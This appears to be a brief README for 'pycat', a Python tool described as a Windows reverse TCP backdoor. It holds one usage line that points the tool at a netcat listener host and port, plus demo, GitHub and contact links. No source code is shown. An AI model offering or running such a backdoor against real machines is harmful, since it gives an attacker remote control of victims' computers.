 # pycat
Windows Reverse TCP backdoor

Usage: python pycat.py --host netcatIP --port PORT



Demo:    youtube.com/watch?v=3sMhHL6c68E

GitHub:  github.com/danielhnmoreno/pycat

Contact: contato@bluesafe.com.br
